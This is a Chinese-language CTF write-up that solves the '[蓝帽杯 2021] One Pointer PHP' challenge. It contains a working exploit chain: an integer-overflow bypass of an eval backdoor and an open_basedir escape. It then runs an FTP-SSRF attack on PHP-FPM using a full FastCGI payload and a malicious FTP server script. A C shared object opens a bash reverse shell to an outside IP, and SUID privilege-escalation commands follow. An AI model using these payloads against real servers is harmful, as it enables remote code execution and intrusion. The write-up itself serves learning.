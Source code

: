 ```yaml
---
title: '[蓝帽杯 2021]One Pointer PHP'
author: Troy3e
avatar: 'https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/QQ%E5%9B%BE%E7%89%8720210427144151.jpg'
authorAbout: SteamID：888007034
authorDesc: Blizzard：TroyeSivan#51769
categories: 技术
comments: true
date: 2021-05-06 14:46:02
authorLink:
tags:
keywords:
description:
photos: https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/thumb-1920-1143425.jpg
---
```

这题没做出来需要反思
给了源码

## 第一层
user.php

    <?php
    class User{
	    public $count;
    }
    ?>

add_api.php

    <?php
    include "user.php";
    if($user=unserialize($_COOKIE["data"])){
    	$count[++$user->count]=1;
	    if($count[]=1){
	    	$user->count+=1;
	    	setcookie("data",serialize($user));
	    }else{
	    	eval($_GET["backdoor"]);
	    }
    }else{
    	$user=new User;
	    $user->count=1;
	    setcookie("data",serialize($user));
    }
    ?>

另$a->count等于php long long类型最大值-1即可绕过(转化为float报错)
本地测试如下：

没过：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210430204027.png)

过了：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210430204051.png)

过了之后就可以执行命令，查看phpinfo：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210430204141.png)

ban了一大堆函数，print_r(scandir(./))看下目录：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210430204226.png)

查看根目录失败，看到openbase_dir有限制，想起来[NCTF2019]phar matches everything里中bypass open_basedir的姿势：https://xz.aliyun.com/t/4720

    <?php 
    mkdir('troy3e');
    chdir('troy3e');
    ini_set('open_basedir','..');
    chdir('..');chdir('..');
    chdir('..');chdir('..');
    chdir('..');chdir('..');chdir('..');
    ini_set('open_basedir','/');
    var_dump(file_get_contents("/usr/local/etc/php/php.ini"));
    ?>

没法读flag，估计是权限不够，但是可以读php.ini。
预期解是pwn这个：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210430210255.png)

然后就不会了。。。
不过现在想想还是大意了，因为这非预期前阵子刚学习过，还就是上面NCTF那道题里面的。。。此处不得不佩服ha1师傅：https://ha1c9on.top/2021/04/29/lmb_one_pointer_php/

回到phpinfo

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210430210613.png)

查看nginx配置文件：readfile('/etc/nginx/sites-enabled/default');

发现fpm开在9001端口。

## FTP - SSRF 攻击 FPM/FastCGI
如果一个客户端试图从FTP服务器上读取文件，服务器会通知客户端将文件的内容读取（或写）到一个特定的IP和端口上。而且，这里对这些IP和端口没有进行必要的限制。例如，服务器可以告诉客户端连接到自己的某一个端口。
如果我们传入
?file=ftp://evil-server/file.txt&data=payload
，会发生以下情况：

首先通过 file_put_contents() 函数连接到我们的FTP服务器，并试图使用 file_put_contents() 把文件上传上去。但是我们搭建的恶意的ftp服务器将告诉它把文件发送到 127.0.0.1:9000。这样，我们就可以向目标主机本地的 PHP-FPM 发送一个任意的数据包，从而执行代码，造成SSRF了。

这里通过加载恶意so的方式来RCE。

写一个扩展：

    #define _GNU_SOURCE
    #include <stdlib.h>
    #include <stdio.h>
    #include <string.h>

    __attribute__ ((__constructor__)) void preload (void){
        system("bash -c 'bash -i >& /dev/tcp/121.x.x.x/3333 0>&1'");
    }

编译：

    gcc hpdoger.c -fPIC -shared -o hpdoger.so

将生成的 hpdoger.so 上传到目标主机的 /tmp 目录中，之前复现就卡在这一步，直接用的copy属实是hanpi了(参考http://www.hackdig.com/05/hack-342091.htm)：

    /add_api.php?backdoor=mkdir('troy3e');chdir('troy3e');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');copy('http://121.196.169.53:5554/hpdoger.so)

然后再自己vps上使用以下脚本搭建一个恶意的ftp服务器：

    import socket
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
    s.bind(('0.0.0.0', 2000))
    s.listen(1)
    conn, addr = s.accept()
    conn.send(b'220 welcome\n')
    #Service ready for new user.
    #Client send anonymous username
    #USER anonymous
    conn.send(b'331 Please specify the password.\n')
    #User name okay, need password.
    #Client send anonymous password.
    #PASS anonymous
    conn.send(b'230 Login successful.\n')
    #User logged in, proceed. Logged out if appropriate.
    #TYPE I
    conn.send(b'200 Switching to Binary mode.\n')
    #Size /
    conn.send(b'550 Could not get the file size.\n')
    #EPSV (1)
    conn.send(b'150 ok\n')
    #PASV
    conn.send(b'227 Entering Extended Passive Mode (127,0,0,1,0,9001)\n') #STOR / (2)
    conn.send(b'150 Permission denied.\n')
    #QUIT
    conn.send(b'221 Goodbye.\n')
    conn.close()

同时监听3333端口。
生成攻击 php-fpm 所需要的脚本：

见http://www.hackdig.com/05/hack-342091.htm
太长了就不放了

payload：

    567bb380-8360-4aeb-b93c-cddea7970584.node3.buuoj.cn/add_api.php?backdoor=$file = $_GET['file'];$data = $_GET['data'];file_put_contents($file,$data);&file=ftp://121.x.x.x:2000&data=%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%02%3F%00%00%11%0BGATEWAY_INTERFACEFastCGI%2F1.0%0E%04REQUEST_METHODPOST%0F%19SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Fadd_api.php%0B%0CSCRIPT_NAME%2Fadd_api.php%0C%0EQUERY_STRINGcommand%3Dwhoami%0B%1BREQUEST_URI%2Fadd_api.php%3Fcommand%3Dwhoami%0C%0CDOCUMENT_URI%2Fadd_api.php%09%80%00%00%B3PHP_VALUEunserialize_callback_func+%3D+system%0Aextension_dir+%3D+%2Ftmp%0Aextension+%3D+hpdoger.so%0Adisable_classes+%3D+%0Adisable_functions+%3D+%0Aallow_url_include+%3D+On%0Aopen_basedir+%3D+%2F%0Aauto_prepend_file+%3D+%0F%0DSERVER_SOFTWARE80sec%2Fwofeiwo%0B%09REMOTE_ADDR127.0.0.1%0B%04REMOTE_PORT9000%0B%09SERVER_ADDR127.0.0.1%0B%02SERVER_PORT80%0B%09SERVER_NAMElocalhost%0F%08SERVER_PROTOCOLHTTP%2F1.1%0E%02CONTENT_LENGTH49%01%04%00%01%00%00%00%00%01%05%00%01%001%00%00%3C%3Fphp+system%28%24_REQUEST%5B%27command%27%5D%29%3B+phpinfo%28%29%3B+%3F%3E%01%05%00%01%00%00%00%00

但此时权限还是不够，无法读取flag：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210506143236.png)

## SUID 提权

UID可以让调用者以文件拥有者的身份运行该文件，所以我们利用SUID提权的思路就是运行root用户所拥有的SUID的文件，那么我们运行该文件的时候就得获得root用户的身份了。

已知的可用来提权的linux可行性的文件列表如下：

    nmap
    vim
    find
    bash
    more
    less
    nano
    cp

以下命令可以发现系统上运行的所有SUID可执行文件。

    #以下命令将尝试查找具有root权限的SUID的文件，不同系统适用于不同的命令，一个一个试
    find / -perm -u=s -type f 2>/dev/null
    find / -user root -perm -4000-print2>/dev/null
    find / -user root -perm -4000-exec ls -ldb {} \;

在本题php就有suid，直接进入交互模式执行代码，得到flag：

    chdir('troy3e');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');echo file_get_contents('/flag');

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210506144929.png)

参考链接：
https://ha1c9on.top/2021/04/29/lmb_one_pointer_php/
https://www.anquanke.com/post/id/186186
http://www.hackdig.com/05/hack-342091.htm